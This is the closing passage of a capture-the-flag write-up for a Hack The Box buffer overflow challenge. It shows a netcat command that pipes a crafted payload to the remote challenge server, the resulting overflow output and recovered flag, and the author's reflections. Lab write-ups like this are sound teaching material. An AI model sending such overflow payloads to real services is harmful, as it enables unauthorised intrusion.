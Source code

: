 Nice! Our dummy flag was printed to the console.

The next step is to feed this payload to the process running on the remote
machine. We can do this using [netcat](https://en.wikipedia.org/wiki/Netcat):

```shell-session
$ cat payload.bin | nc 138.68.170.205 32570
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
HTB{0ur_Buff3r_1s_not_healthy}
```

Awesome! We have the flag ✊🏻

I absolutely loved this challenge, mainly because it required a bit of technical
knowledge and problem-solving to complete. The fact that it forces you to
understand how data is passed around a program really appeals to me. The next
box, _Netmon_, also requires a bit problem solving, but nothing quite as
in-depth as this.
